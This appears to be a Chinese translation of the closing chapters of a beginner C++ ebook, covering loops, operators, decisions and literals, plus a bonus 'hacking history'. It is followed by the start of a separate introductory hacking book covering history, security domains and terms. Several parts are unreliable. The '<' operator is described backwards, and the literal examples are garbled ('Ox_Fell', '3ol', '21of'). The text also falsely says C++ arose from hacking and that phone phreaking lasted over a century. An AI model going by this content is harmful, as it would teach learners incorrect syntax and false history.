此循环反复执行一个语句序列，同时缩短了管理循环变量的代码。

写法如下：

```cpp
for ( init; condition; increment)
{
statement(s);
}
```

### Do.. while 循环

Do…while 循环与 while 语句类似，但它在你到达语句末尾时测试条件，而不是在开始。

写法如下：


```cpp
do
{
statement(s);
}while (condition);
```

## 嵌套循环

嵌套循环将有一个循环在另一个循环内部运行，创建一个连续的循环。这一段时间后可能会变得困惑。

写法如下：

```cpp
while (condition)
{
while (condition)
{
statement(s)
}
statement(s) // 你可以放置更多语句
}
```

尽管这些内容对某些人来说太高级，或者对另一些人来说太简单，但通过其他的练习和教程来丰富你的编程技能始终是有益的。你可以在`www.compileonline.com`找到教程。这个工具的极其重要性怎么强调都不为过。你必须亲自去尝试，看看它到底有多有用。这里也有其他语言的教程，而不只是`C++`，尝试一下并看看你喜欢哪个。

# 第 5 章：在 C++ 中使用运算符

在使用你计划使用的任何编程语言时，学习如何使用运算符都是重要的。这些运算符将帮助你告诉程序你想执行的操作，并让处理你自己的代码变得简单得多。在程序内部你可以使用四种主要类型的运算符，它们将分别以不同的方式告诉程序如何运行。你可以在`C++`语言中使用的某些运算符包括：

- 逻辑运算符
- 算术运算符
- 赋值运算符
- 关系运算符

让我们来看看其中一些运算符是如何工作的，以及在编写`C++`语言代码时如何让它们充分发挥作用。

## 逻辑运算符

我们在本指南中使用的第一种运算符是逻辑运算符。它们将帮助你比较输入到中的某些部分。你可以使用的逻辑运算符包括：

- `||`: 这被称为逻辑或（OR）。如果你的其中一个操作数不为零，则条件将为真。
- `&&`: 这被称为逻辑与（AND）。如果你有两个操作数且它们都不为零，你的条件就为真。
- `!`: 这是逻辑非（NOT）。你可以用它来反转操作数的状态。所以，如果条件结果为假，这个符号将使其变为真。

## 算术运算符

你可以使用的另一种运算符是算术运算符。这与在学校学习数学几乎一样。你将告诉程序根据你提供的信息进行加、减和其他等式运算。你可以使用的的一些算术运算符包括：

- `+`: 这是加法运算符，会将你选择的两个操作数相加。
- `-`: 这是减法运算符。它将右侧的操作数减去左侧的操作数。
- `*`: 这是一个让你能够在`C++`语言中进行乘法的运算符。
- `/`: 这个运算符帮助你在`C++`中进行除法运算。
- `++`: 这是自增运算符。它会将你的操作数的值加 1。
- `--`: 这是自减运算符。它会将操作数的值减 1。

## 赋值运算符

赋值运算符将帮助你更方便地为变量命名，并帮助对你正在编写的代码不同部分进行搜索、保存等操作。你可以在`C++`中使用的某些赋值运算符包括：

- `=`: 这个运算符是简单的赋值运算符。它将右侧操作数的值赋值给左侧的操作数。
- `+=`: 这被称为加赋值运算符（Add AND）。它会将两个操作数的值相加，然后将它们的和赋值给左侧的操作数。
- `*=`: 这是乘赋值运算符（Multiply AND）。它会将两个操作数相乘，然后将结果交给左侧的操作数。
- `-=`: 这会将右侧操作数的值从左侧减去，然后将差值交给左侧操作数。
- `/=`: 这是除赋值运算符。它将左侧的值除以右侧的值，然后将结果赋值给左侧。

还有其他一些赋值运算符，但它们更高级，所以我们只坚持这些基础运算符，以保持条理！

## 关系运算符

当你在`C++`语言内部工作时，关系运算符会非常有帮助。你可以使用的一些运算符包括：

- `==`: 这是检查你两个操作数是否相等的运算符。如果它们相等，条件将为真。
- `>`: 这个运算符检查你操作数的值。如果左侧的操作数大于右侧的，则条件将为真。
- `<`: 这个运算符基本上与上面的一个相反。如果你发现左侧操作数的值大于右侧的值，则条件将为真。
- `!=`: 这个将检查你两个操作数是否相等，如果值不相等，你的条件就为真。
- `<=`: 这个运算符检查左侧操作数是否小于或等于右侧操作数。如果符合此标准，则条件为真。
- `>=`: 这个将检查左侧操作数的值是否大于或等于右侧的值。如果是，则条件为真。

# 第 6 章：帮助 C++ 做出决策

有时你需要程序为你做决定。你可以根据用户输入电脑的信息以及你决定的满足什么条件以使条件为真，来设置它以特定的方式运行。在这个系统内部，决策判断要高级一些，但你会发现它很容易学习，并且会在你在`C++`系统中可以开展的很多想法。让我们来看看你可以做什么来帮助系统自己做出决策。

## Switch 语句

我们在系统内部要处理的第一种决策是`switch`语句。这些语句很好，因为它们允许你检查变量与一组值（或情况，cases）是否相等。你正尝试检查的变量将与每个`case`进行比较。你可以使用的语法良好示例包括：

```cpp
switch(expression){
    case constant-expression:
        statement(s);
        break; // 可选
    case constant-expression:
        statement(s);
        break; // 可选
    // 你可以根据需要添加任意数量的这些 case 语句
    default: // 可选
        statement(s);
}
```

在这些语句内部工作，有几个规则你应该牢记在心。首先，`switch`语句的表达式应该是整数或枚举类类型。此外，它也可以属于一个具有转换函数的类。在`C++`中，你向语法中添加的`case`语句数量没有限制，你可以根据需要让它们变长或变短。只需记住每个`case`中都需要一个冒号和一个值。

一旦变量找到了与它相等的值，它将继续运行，直到找到一个`break`语句。系统找到`break`语句后，`switch`将停止。然后控制流将继续传递。你不需要在`case`中放入`break`语句。如果你最终没有这些语句，控制流将继续传递。

## if 语句

你在程序中可以做的最基础的事情之一就是创建一个`if`语句。这些基于系统内部的真和假思想。如果系统认为根据你设置的条件输入为真，那么程序将运行你要求执行的任何内容。例如，你设置系统为`2 + 2`的答案是什么。如果用户输入的答案是`4`，你可以弹出一个显示“正确！干得好！”的消息。

每当用户输入的内容根据你设定的条件为真（true）时，你选定的语句就会显示。相反，如果用户输入了错误的答案会发生什么呢？如果他们对上面的问题回答为`5`，那将是不正确的，系统会检测到该答案为假（false）。

由于`if`语句非常基础，你会发现当用户输入错误答案时，它并不会做好任何准备。在这个阶段，如果他们在上面的示例中输入除`4`以外的任何数字，屏幕将变为空白，什么都不会发生。下一种语句将更深入，并向你展示如何根据用户输入系统的内容来获取答案。

## if else 语句

现在正如我们上面稍微讨论的，在使用`if`语句时可能会出现一些局限性。如果用户输入了错误答案，屏幕就会变为空，这在系统操作中可能会很麻烦。此外，有时用户需要输入各种答案，例如当他们输入年龄而你想将这些区分开时。他们的年龄并不一定是错误的，但如果你只想筛选大于`21`岁的人，你希望确保在这个过程中能正确显示答案。

用于`if else`语句的良好语法包括：

```cpp
if(boolean_expression)
{
// 如果布尔表达式为真，则执行语句(s)
}
else
{
// 如果布尔表达式为假，则执行语句(s)
}
```

你可以根据需要向你的语句中添加任意数量的此类结构。因此，如果你想让程序将人们分为五个不同的年龄组，你可以根据语法中更多的`else`来进行设置。这使得添加其他选项变得更加容易。

所以让我们保持简单。假设系统中有`2 + 2`题目。如果人猜答案是`4`，你可以在第一部分将其设置为真语句，然后屏幕上就会出现`That’s Right! Good Job!`（正确！做得好！）的消息。但如果用户输入的答案是`5`（或任何非`4`的答案），你可以让屏幕显示`Sorry, that is not the right answer`（抱歉，答案不对）的消息。这在你在处理代码中想要执行的操作时提供了很大的自由。你能够向过程中添加一些不同的内容，并真正扩展你正在编写的代码。

在处理这些内容时可以记住的另一点是，你可以在每个语句内部嵌套一些`if`语句和`if else`语句。对于初学者来说，这可能会有点复杂，但通过练习，你会发现这将为整个过程增加很多力量，并让你在这门编程语言中更容易实现你想做的某些事情。

使用`if`语句和`if else`语句可以让你的编程体验变得好得多。它允许系统根据用户输入的内容来做决策，而不是由你亲自在场完成。务必尝试这些不同类型的语句，看看它们在你的代码以及你想要实现的功能中是如何工作的。

# 第 6 章：常量与各种字面量（Literals）

这种语言是复杂的，尽管你上面所学的知识足够运行一些简单的函数，但这种语言还有许多部分，如果不在这里提供更深入的知识来帮助你过渡到下一个阶段，那将是一种缺憾。

如果你想在这门语言上取得成功，就要准备好投入大量的时间苦学。虽然它对于初学者来说是一门很好的语言，因为它有多个难度的级别，但你必须通过努力才能进入下一个水平。你越尝试学习，新增加的效果就越困难。

编程本身是一个漫长而艰苦的过程，但绝对值得的，因为有许多需要`C++`知识的职业你可以从事。从游戏设计到与机器人工作等等。只要涉及技术，很可能就会`C++`。

以下你可以学习的更多步骤，以及为了开始掌握这门语言需要了解的一些重要函数。

## 常量与字面量

常量和字面量是学习`C++`必不可少的部分。它们指的是数据类型以及这些数据类型中的变量。它们是常量，不能更改。

它们的作用与其他任何变量一样，不同之处它们是静态的，你无法改变它们。你使用的整数被称为字面整数（literal integers）。它们可以带有如`U`或`L`之类的后缀，代表无符号（unsigned）和长型（long）。这些变量用于大写和小写，并可以很好地辅助你的进程。

要理解整数字面量，请看以下示例：

```text
032uu//非法：不能重复后缀
078//非法：8 不被视为八进制位
Ox_Fell//这个是合法的
215//这个是合法的
212//这个是合法的
85//这是一个十进制
30ul//这是一个无符号长型
3ol//这个是长型
3ou//这是一个无符号型
3o//这是一个整型
Ox4b//这是一个十六进制
0213//这是一个八进制
```

## 浮点数字面量

这些是代码中的部分，包含一个整数、一个小数点、小数部分和一个指数部分。它们可以通过指数形式或十进制形式显示。

当你选择使用小数点来表示这些字面量时，你需要确保至少添加了小数，尽管加上指数也是好的。当你通过指数形式表示时，你应该包含小数部分、整数部分或两者兼有。你使用的带符号指数也应该以`E`或`e`开头。

你在编写代码时可以使用的一些浮点数字面量包括：

```text
.e55//这些是非法的，因为缺少小数部分或整数部分
21of://这些是非法的，因为它们没有指数或小数点
51oE//这些是非法的，因为指数不完整
314159E-5L//这些是合法的
3.15159//这些是合法的
```

## 布尔字面量

我们可以讨论的下一种字面量是布尔字面量。在你的`C++`代码中可以使用两种类型。基本上布尔值将显示为`true`（真）或`false`（假）。如果你设定的条件为真，布尔表达式将输出为`true`。相反，如果你设定的条件不满足，你将得到一个为假的条件。所有布尔形式的答案都将输出`true`或`false`。

## 字符字面量

当你在代码中看到字符字面量时，你会发现它们是用单引号括起来。它们可以是简单的，使用类似`'x'`的字符告诉命令，也可以长得多。这些是你能够添加到代码中的基础内容，并能使处理变得容易得多。

## 字符串字面量

另一种你可以处理的字面量是字符串字面量。这些是用双引号括起来的。字符串将包含类似于字符字面量的字符，包括通用字符、转义序列和普通字符等选项。你可以以多种方式使用字符串字面量，包括将某一行拆分为两行，以及将内容分开以便于阅读。你可以使用的字符串示例包括：

```text
"hello, Mother"
"hello, \
Mother"
"hello, " "M" "other"
```

学习使用`C++`编程语言中的一些不同部分，将极大地提高你使用这门计算机语言的能力。请愉快地体验并多尝试使用它们，你会发现获得你想要的结果比以往任何时候都容易！

# 结论

感谢你购买本书。我希望它对你来说既有启发性，又充满趣味。请将这本书不仅作为知识的指南，也作为灵感的来源。`C++`看起来是一门令人生畏的语言，但只要你坚持地练习它（以天、月、年为单位），你将像掌握生活中其他任何事情一样，完全掌握这门编程语言。我请求你在遇到问题时不要忧虑或焦虑，因为这种情况会发生很多。外界有许多资源等待着你阅读和发现，尽到你的职责，去学习、改进并提升你的`C++`编程技能到下一个水平，这最符合你自己的利益。

# 额外赠：简要黑客历史与概述

许多人听过`C++`这个名字，但实际上对此并不了解。如果你对技术不太精通，你可能会认为这只是一个平庸的字母等级，但事实并非如此。

信不信，`C++`是一门黑客语言，虽然它不是唯一的，但它是最重要的语言之一，因为它是多功能且易于使用的。要最深入了解`C++`，你必须了解关于它产生的原因，那就是黑客行为。

## 黑客行为 (Hacking)

黑客行为并不是新概念。只要有技术存在，就会有人找到破解它们的方法。黑客行为是对从一个地方到另一个地方传输的任何技术数据流的操纵和中断。这是通过脚本实现的。虽然你可以在网上获得预装脚本，但许多人更倾向于编写自己脚本的老办法，因为这让他们在处理信息时具有更大的灵活性。预先设置在包中的脚本移动性有限，且非常显眼。真正想要进行黑客活动的目标是保持行迹。如果你被抓到，除非你有权限执行你所做的事情，否则你会陷入巨大的麻烦。

## 黑客历史

黑客行为正式开始于 20 世纪 70 年代，当时青少年因为尝试拨免费电话而被禁止使用电话线，他们发现了实现这一点的方法。电话黑客是当时最大的活动，并持续了一百多年。以前打电话很贵，特别是在电话线刚新的时候，所以人们自然试图寻找省钱的方法，而且通常这种事会有报应。约翰·德雷珀（John Draper）就是这样。他被捕是因为他发现通过向听筒吹一个音符可以促使手机在没有接线员的情况下拨打长途电话。然后你可以输入号码并随心所欲地通话。这是天才，但是非法的。

然而，他引发了一场革命。一群青少年聚集在一起，创建了一条破解了系统的电话线，帮助人们拨打免费电话。一旦这像野火一样蔓延开，史夫·乔布斯（Steve Jobs）决定开发一种可以营销的产品，这种产品可以破解电话线并帮助人们自己拨打免费电话。

大规模计算机黑客活动直到 20 世纪 80 年代才开始。然而，一旦开始，它像野火一样蔓延，许多人认为看看他们能做什么，以及他们如何操纵这些计算机是一个很棒的主意。

## 黑客类型

世界上有几种不同的黑客。虽然媒体将所有黑客都描绘成坏人，但他们并非如此。这也不是非黑即白的。虽然在谈论黑客时这两个是两个最流行的群体，但中间还有非常多的类别，因此只讨论最广为人知的两种并无益。

然而，所有子类别所属的两个大类是伦理黑客和不伦理黑客。

- **伦理黑客 (Ethical hacking)** 是仅用于良好目的的黑客行为。很多人有完全权限进入系统并发现软件或硬件的所有漏洞。

伦理黑客是负责你手机、应用、平板电脑或计算机中所有漏洞修复的人。这些人受公司聘佣找出系统出的什么问题，并找到最好的修复方法。这些黑客是黑客社区不可或缺的组成。

如果没有黑客，我们就没有全球维网、`urls`或`HTML`。如果在伦理黑客的边界内进行，黑客行为是一个重要部分。

- 然而，**不伦理黑客 (Unethical hacking)** 不属于现有法律允许的黑客范畴。它是出于恶意目的。那些攻击银行主主机、盗取他人信用卡和账户信息并用其清空账户的人被称为不伦理黑客。

不伦理黑客是真正黑客存在的祸根。这些人是给好人带来坏名的人。

现在来看一下所有不同类型黑客的术语。

- **白帽黑客 (White Hat Hackers)**：这些是完全伦理的黑客。他们所做的一切都是为了做好。他们检查系统，仔细搜寻任何漏洞，并建立极其强大的防火墙以确保系统安全。他们创建反恶意病毒软件。

- **黑帽黑客 (Black Hat Hacking)**：这是你必须远离的黑客类型。能力越大，责任越大。不成为黑帽黑客诱惑之猎物的巨大责任。这种类型的黑客行为会让你陷入很多麻烦，而且是不道德的。攻击政府文件甚至他人的隐私可能是诱人的，但会导致严厉的惩处。

- **灰帽 (Grey Hat Hacking)**：这些是有时为了正确的理由做坏事的黑客。例如 Anonymous。他们可能会破解敏感防火墙，但目的是揭腐败。这些黑客通常被视为罪犯，但实际上他们被视为英雄。

- **红帽 (Red Hats)**：这些是黑客世界的猎人。他们利用黑客技术寻找非法黑客，例如黑帽黑客或做不该做事的灰帽。然后他们将这些人交给联邦，以便非法黑客被捕。关于这些黑客还有其他术语，但它们不太合适，所以我们略去。

- **蓝帽黑客 (Blue Hat Hackers)**：这些是黑客世界的蓝领工人。他们坐在隔间里整天黑客攻击，为微软或其他公司寻找漏洞。他们做的是一份涉及黑客的朝五工作。

这些是黑客的主要分类。还有精英黑客，他们一生致力于成为世界上最优秀的黑客，而绿帽黑客并不真正在意黑客，他们只是为了好玩。

话虽如此，你必须小心如何使用你的黑客能力。如果你利用这些能力进入你未被允许进入的系统或网络，你可能会陷入巨大的麻烦。虽然有些人会发现这些漏洞并立即通知公司，但如果你在不该待在系统时，这仍然是一个法律问题。你所骚扰的公司可能会提起诉讼，因此，最好的办法是在自己的网络内工作并保持其安全，而不是尝试进入一个你不属于的网络。


另一方面，如果你是一个热爱在计算机世界工作并希望一直从事这项工作的人，那么成为一名白帽黑客可能是一个好主意。许多公司为其客户保留私密和个人信息，无论是医院信息、信用卡信息还是其他信息。他们时刻防范试图进入系统并获取这些信息的黑帽黑客，而一个优秀的白帽黑客总能找到帮助这些公司所需的工作。

# 黑客大学：新生版

# 如何成为业余黑客必备指南（黑客、如何黑客、黑客入门、计算机黑客）

### 系列：破解自由与数据驱动第 1 卷

作者：Isaac D. Cody



© 版权所有 © 2017 Isaac D. Cody - 保留所有权利。

本文旨在就涵盖的主题和问题提供准确且可靠的信息。本书出版的理念是，出版者不需要提供会计、官方许可或其他合规服务。如果需要法律或专业建议，应聘请该专业领域的资深人士。

- 摘自一份由美国律师协会委员会和出版者及协会委员会共同接受并批准的《原则宣言》。

严禁以任何电子手段或打印格式复制、复印或传输本文档的任何部分。严禁录制出版物，未经出版者书面许可，不允许存储本文档。保留所有权利。

此处提供的信息被声明是真实且一致的，对于因使用或滥用本文包含的任何政策、流程或指示而导致的任何疏忽或其他方面的责任，完全由接收读者承担。在任何情况下，对于因本文中的信息直接或间接导致的任何赔偿、损害或资金损失，出版者均不承担任何法律责任或指责。

各作者拥有出版者未持有的版权。

此处的信息仅供参考之用，具有通用性。信息的呈现不带有任何合同或任何类型的保证性。

所使用的商标均未经任何许可，且该商标的出版未经商标所有者的许可或支持。书中的所有商标和品牌仅用于说明目的，归其所有者所有，与本文档无关。

# 目录

* 预览
* 引言
* 第 1 章：历史与著名黑客事件
* 第 2 章：现代安全
* 第 3 章：常用术语
* 第 4 章：入门
* 第 5 章：保护自己
* 结论

## 预览

你是否想过未来会如何？你是否想过黑客是否适合你？据估计，一名认证黑客的平均收入为 71,000 美元。现在是你成为一名优秀黑客的时候了。

《黑客大学：新生版。如何成为业余黑客必备指南（黑客、如何黑客、黑客入门、计算机黑客）》将涵盖更多相关主题。这本书将为你提供计算机黑客知识。书中涵盖的一些主题包括：

* 黑客历史
* 黑客的好处与危险
* 网络安全的未来
* 开始黑客的必备基础知识
* 计算机网络
* 硬件与软件
* 渗透测试
* 破解密码
* 后门
* 信息安全
* 网络扫描与 VPN
* 病毒

## 引言

我想感谢并祝贺你下载《黑客大学：新生版》这本书。这本书是关于黑客信息的权威入门指南。无论你是安全专业人士还是有抱负的黑客活动者，这本书都能为新手提供定义、资源和演示。

黑客是一个具有争议的话题，但事实是，黑客既用于善意目的，也用于恶意目的。黑客是必要的，否则无能和滥用如何被揭露呢？同样，《黑客宣言》解释了黑客的意识形态——他们没有犯罪，除了好奇心。对系统进行实验本质上是有趣的，它为极具天赋的人提供了一个释放其好奇心的出口。这本书延续了这些伦理；此处提供的演示是为了教育和乐趣而出于善意编写的。

尽管，联邦政府之间互相黑入以窃取机密信息，团体出于政治议程攻击公司，个人则为了报复而利用他人。这些例子并不代表黑客，上述情况并非善良、好奇的黑客所会做的事。本书也不赞成这类黑客行为。

作为免责声明——除了你自己之外，没有人对任何损害负责。书中的某些演示具有潜在危险，因此你在执行这些演示时是出于自愿的，并且获得了计算机和网络所有者的明确许可。

## 第 1 章：历史与著名黑客事件

研究这种艺术形式的历史将给你带来欣赏和背景，因此我们将从这里开始。继续读下去，开启你的安全职业生涯。

### 黑客的历史

黑客拥有一段丰富且多样的历史，可以追溯到古代。密码学和加密（密码）被罗马军队使用。指挥官需要在战场上发送指令，他们通过在纸上写下指令来实现。士兵可以来回传送这些纸条，从而使一方通过获取更多信息来获得优势。

无疑，士兵有时会被俘虏，秘密指令会落入敌人之手。为了应对这一点，指挥官开始通过变换和移动字母来模糊文本。这一过程被称为`encryption`（加密），它成功地困扰了敌人指挥官，直到他们被迫尝试破解。通过采用数学方法和巧妙的技巧来消除模糊化，敌人有时能够解码文本。因此，在计算机被发明之前，古代人就已经在当黑客了！

### 恩尼格玛机

然而，当大多数人想象早期的黑客时，他们通常会被`Enigma Machine`极其有趣的故事所吸引。`Enigma`机是第二次世界大战期间纳粹德国著名的用于加密和解密军事信息的设备。与古罗马人类似，德国的消息在发送前会经过模糊化和变换，这样即使信息被截获，对手也无法读取这些高度机密的文本。除了在 20 世纪 30 年代加密方法被发现的短暂时刻外，`Enigma`机在其存在的大部分时间里非常成功。波兰密码学家是最初破解代码的人，但德国在那个年代后期通过改进设计并使`Enigma`变得更加复杂来进行了反击。

`Enigma`的统治持续了整个战争。一位名为`Alan Turing`的英国教授利用他的研究和对数学的广泛知识提供了关键研究，在 1939 年再次破解了`Enigma`代码。然而，正如加密方法的通常情况，`Enigma`再次得到了改进并变得不可破解，直到 1943 年图灵协助海军并生产了一台速度更快的解密机。

这些解密机被称为`Bombes`，它们为破解`Enigma`代码提供了便利的设备。`Bombe`机器使用旋转鼓和电信号来分析错乱的消息，并输出拨盘和插头的正确配置，从而生成解码后的文本。由于其机械和电气复杂性，`Bombes`几乎可以被认为是最早的计算机之一。尽管双方都投入了先进的技术，但`Enigma`的最终终结实际上是因为盟军捕获了机器中使用的密钥或代码。随着加密方法的变得透明，`Enigma`变得基本毫无用处，除非进行重新设计。重新设计迫不容缓，因为战争很快结束了。盟军解码`Enigma`消息的能力对他们的成功起了巨大的作用。

### 电话黑客的兴起

第二次世界大战后，大量的研究和计算投入到了弹道导弹和核武器的发展。冷战本质上促进了现代电子计算机的发展，因为电子设备可以快速地进行数学运算。`Colossus`、`ENIAC`和`EDSAC`等先进设备为 20 世纪 50 年代和 60 年代更快的电子设备铺平了道路。超级计算机被全球大学和公司使用，这些早期设备也容易受到入侵和黑客攻击。然而，20 世纪最著名的黑客运动被称为`Phreaking`（电话黑客），涉及通过电话进行“黑客”。

`Phreaking`开始于电话公司从人工操作员切换到自动交换机之后。自动交换机根据拨号号码时电话产生的音调频率决定路由的路由。在手机上按按钮时听到的哔哔声让人联想到这一点，因为每个按钮都会产生不同频率的音调。连续的音调通过自动交换机拨打号码，电话用户的通话就会连接到拨打的号码。

尽管如此，其他音调对应不同的动作——`phreakers`（电话黑客）发现通过模仿特殊的音调，他们可以控制自动交换机并获得全球范围内免费的长途电话。`Phreaking`随后演变成一种个人文化，这些人会探索和实验电话系统，经常深入非法手段以寻求乐趣并逃避费用。熟练的`phreakers`甚至可以窃听电话并通过冒充技术人员来操纵电话公司员工。

少数`phreakers`因发现新技术和推进`phreaking`研究而在社区内闻名。`Joseph Engressia`是第一个发现拨打长途电话所需音调的人，而`John “Captain Crunch” Draper`发现麦片盒里的奖金哨产生的正是那种音调，他根据这一发现获得了他的绰号。对著名`phreakers`的采访启发了后辈——`Steve Jobs`本人也喜欢参与这项爱好。

网络计算机和`BBS`的发明将这种文化带给了更多人，因此这项爱好急剧增长。这不再是一个小运动，政府在 1990 年注意到了这一点，当时美国特勤局通过“Sundevil 行动”对`phreaking`社区进行了打击。该行动导致几个`phreaking`小组因非法活动而被关闭。随着时间的推移，由于手机的竞争，电话变得不再流行，因此`phreaking`大多在 20 世纪 90 年代消失了。当个人电脑对大多数家庭都能负担得起时，`phreaking`文化大多回避并被黑客文化吸收。

### 现代黑客文化

到 20 世纪 80 年代中期，公司和政府设施经常被爱好者和报告计算机漏洞的“白帽”专业人士攻击。`Loyd Blankenship`在 1986 年在一份黑客和`phreakers`阅读的在线杂志上写了《黑客宣言》；该文件后来成为黑客哲学的核心部分，因为它将其归类为无罪的好奇好奇之士。黑客行为继续发展，1988 年`Robert Morris`创建了一个导致康奈尔大学计算机系统崩溃的蠕虫。尽管可能没有恶意，这种情况标志着计算机黑客的分化。一些人继续作为“白帽”寻找乐趣，而另一些人则作为“黑帽”黑客寻求非法利益。

始终连接的互联网让几乎每台计算机都变得脆弱。网络安全现在是每个政府、公司和个人的主要关注点。无论被用于“善意”还是“恶意”，黑客行为都是现代世界中不可或缺的存在。由于计算机无处不在并与典型功能交织在一起，专业安全岗位将持续需要黑客技术。然而，只有通过研究过去，我们才能了解现代黑客所处的这种独特状况。

## 第 2 章：现代安全

如今的 IT 专业人员通常不会在公司中担任“全才型”职位。虽然小企业可能仍雇佣一个对大多数技术领域都比较熟悉的人员，但联网的大型企业面临的巨大需求意味着必须有多位 IT 专家同时存在。低级帮助台人员向 IT 经理汇报，经理向管理员汇报，管理员再向`CTO`（首席技术官）汇报。此外，有时还有更细的专业分工，安全员工与管理员协商并向`CIO`（首席信息官）或`CSO`（首席安全官）汇报。总的来说，安全工作必须以全职、第三方外包或系统管理员的双重专长形式存在于公司中。每年，由于数据泄露、网络盗窃、DDoS 攻击和勒索软件会导致大量的收入损失。黑客维持了对安全的持续需求，而反黑客则在拼命追赶以保护资产。

安全专业人员的作用是尽其所能确认组织所有安全的完整性。以下是对安全专业人员保护免受威胁的各种研究领域的简单解释。其中一些“领域”也是`CISSP`（注册信息系统安全专家）证书持有者的关键研究领域，该证书是安全熟练的证明。`CISSP`有时被认为是反黑客人员，因为他们利用自己的知识在问题发生之前阻止黑客攻击。

### 网络安全

网络安全包括保护网络化服务器免受外部入侵。这意味着不能让任何好奇的人获得访问的切入点。通过网络发送的数据不应能被截获或读取，有时需要加密以确保受损的数据对黑客来说没有用处。

### 访问控制

复杂的安全基础设施需要能够识别并验证授权人员。安全专业人员使用密码、生物识别和双因素身份验证等方法，确保计算机用户确实是他们所称的。黑客试图通过盗取密码或寻找漏洞来伪装成其他用户。

### 软件应用安全

黑客迅速利用软件中隐藏的 Bug 和漏洞，这些漏洞可能会提升他们的权限并允许他们窃取秘密数据。由于大多数公司和政府运行自己的内部专有软件，安全专业人员不能总是对软件进行完全测试。这是黑客利用的热门领域，因为 Bug 和漏洞可能有很多。

### 灾难恢复

有时黑客会成功。一个熟练的破坏者可以渗透远程服务器并造成巨大破坏或盗取大量信息；灾难恢复是安全专业人员应对的方式。通常，文档会对大多数常见灾难情况有特定的计划。自动识别系统可以告知何时发生了入侵或数据何时被盗取，最优秀的`CISSP`可以关闭攻击，甚至追溯罪犯以揭露其真实身份。然而，灾难恢复并不总是对攻击的响应。自然灾害也是，而且没有比被淹水的机房更糟糕的。专业人员必须拥有灾难计划使业务恢复运行，否则业务可能会面临巨大的资金损失。

### 加密与密码学

正如我们通过历史学到的，数据加密是保护最有价值信息的有效工具。然而，对于每种加密方法，都有黑客/破解者利用他们的才华来破解它。安全人员使用密码学来加密敏感文件，而黑客则破解这些加密。干练的黑客可以通过强大的计算机（可以进行快速数学计算）或寻找加密算法中的缺陷来破解弱加密。

### 风险管理

值得吗？计算机基础设施的每一次增加都伴随着风险。网络化打印机对业务非常有帮助，但黑客以通过利用打印机软件中的漏洞进入网络而闻名。当进行任何更改时，IT 必须权衡风险与收益，以得出更改是否是一个安全主意。毕竟，增加那个带 Wi-Fi 的咖啡壶可能会给黑客提供他们所需的入口。

### 物理安全

赛博朋克小说（一种关于黑客的文学分支）中的常见主题涉及晚上进入建筑并从内部破坏网络。这是一个真实的威胁，因为任何拥有计算机物理访问权限的人在攻击方面都有显著优势。物理安全涉及限制对建筑某些部分的身体接触或锁门，以防黑客有机会溜进去并带走`HDD`。

### 运营

许多著名的攻击是由拥有过多权限的员工实施的。利用他们被授予的信息和访问权限，这些黑客实施了“内部鬼”行为并带走了目标。安全团队试图通过只给每个人完成工作所需的足够访问权限来防止这种情况。这说明，安全人员甚至不能信任他们的同事。

这些并不是所有的`CISSP`领域，但它们是最著名的。有趣的是，这些领域洞察了安全 IT 在保护数据时采用的方法和哲学，以及黑客必须如何警惕`CISSP`的运作方式。

然而，对黑客来说，关于现代安全最有用的知识是对业务如何运营的深入理解。了解大多数业务将数据存储在服务器上并通过 Windows 域验证身份是良好的第一步，但需要现实经验才能真正理解计算机基础设施是如何运作的。

## 第 3 章：常用术语

攻击的一个重要方面涉及对大量计算概念的深入理解。在本章中，我们将广泛介绍几个重要的概念。

### 编程

为计算机编写指令代码的被称为编程。原始的编程只使用二进制的 1 和 0。现在的编程是用高级编程语言完成的，这些语言非常接近英语，并混杂了特殊字符。程序必须经过编译，这意味着在运行之前要翻译成机器码。理解编程基础让黑客对他们试图利用的应用程序如何工作有深入的见解，这可能给他们带来优势。

### 算法

算法是导致结果的重复任务。例如，乘法问题可以通过重复加数字的算法解决。`5 x 3`等同于`5 + 5 + 5`。算法是加密的基础——对数据进行重复扰乱以混淆它。

### 密码学

密码学是对加密和解密的研究与实践。加密文件涉及通过各种算法对数据内容进行混乱。算法越复杂，加密的逆转（即解密）就越困难。重要文件几乎总是经过加密的，因此在没有解密所需的密码的情况下就无法读取。加密也可以通过其他各种手段撤销，例如密码分析（对数据模式进行密集的评估和研究，可能借此发现密码）或攻击。

### 密码

密码是用于验证用户身份的关键短语，允许其访问通常未经授权人员无法访问的信息。我们在计算机的几乎各个方面都使用密码，而破解密码是大多数黑客的梦寐以求的目标。密码可以通过许多不同的方式被泄露，但主要是通过数据库泄露、社会工程学或弱密码。

### 硬件

使计算机运行起来的物理组件。这里有一个安全小常识：美国政府有时担心来自中国的硬件在设计上允许中国黑客入侵美国政府的计算机。

### 软件

软件是任何执行任务的编写代码程序。软件的示例从文字处理器到网络浏览器再到操作系统等。软件也可以称为程序、应用程序和 App。

### 脚本

实现简单任务的小段代码可以被称为脚本。通常不是完整的程序或软件，因为它们太小了。

### 操作系统

计算机上作为其他较小应用程序框架的大型软件被称为操作系统或 OS。大多数计算机运行微软操作系统的变体，但也有一些计算机使用 Apple OSX 或基于 GNU+Linux 的操作系统。

#### Linux

简单来说，Linux 是一个促进复杂操作系统的`kernel`（`kernel = 底层操作系统代码`）。虽然 Windows 使用`NT`内核作为核心，但 Ubuntu 和 Debian 等操作系统使用`Linux`内核作为核心。Linux 操作系统与我们习惯的非常不同，因为它们不运行`.exe`文件，也没有熟悉的界面。事实上，某些 Linux 操作系统完全是基于文本的。尽管如此，Linux 对黑客来说是非常强大的，因为它可以运行 Windows 无法运行的软件，其中某些软件是专门为安全和黑客攻击而设计的。我们将在后面的章节中看到如何利用 Linux 我们的优势。

### 计算机病毒

这是一个广义术语，通常涵盖各种威胁。它可以指病毒、蠕虫、特洛伊木马、恶意软件或任何其他恶意程序。具体来说，病毒是一种自我复制的有害程序。病毒将自己复制到其他计算机上并继续像感冒一样传播感染。某些病毒是为了骚扰用户，另一些是为了破坏系统，有些甚至会隐藏并在幕后造成看不见的损害。奇怪的计算机活动或一般的运行缓慢有时可能是病毒。

#### 蠕虫

蠕虫是不需要宿主机的恶意代码。蠕虫在网络中“爬行”，并具有深远的影响力。

#### 特洛伊木马

